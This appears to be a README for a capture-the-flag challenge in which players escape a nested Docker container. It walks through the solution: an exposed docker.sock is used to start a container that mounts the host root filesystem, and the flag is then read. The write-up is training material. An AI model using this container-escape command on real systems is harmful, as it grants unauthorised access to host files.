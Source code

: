 # Inception

###### Author: Tinius

### About

To solve you need to "escape" the current docker. And get the flag.txt on the "system" (First docker level) (But actually second level if you count CTF manager (docker in a docker in a docker)).

Mother docker = "2nd level system, but first level in the eyes of the user" ()

The machine = "3rd level system, but the seconds system in the eyes of the user. System the user connects to"

Mother docker is a container that runs The machine as a container aka docker in  docker, but the CTF player only needs to know that The machine is a container.

### Vulnerability
/var/run/docker.sock is available to call inside The machine, from there you can create a new container that mounts the mother's filesystem.

### How to solve.
#### Figuring out you are inside a container
1. Docker creates a .dockerenv file in the root directory of the container.
2. Hostname is some "random" string



#### Solving
You need to create a new container inside The machine that mounts the mother's root filesystem, there you can access flag.txt.

#### Connect
```
ssh ctfuser@localhost -p 40001
```

#### RUN
```
docker run -v /:/mnt --rm -it ubuntu
```

### Access flag.txt
```
cat /mnt/flag.txt

> CTFkom{test_flag}
```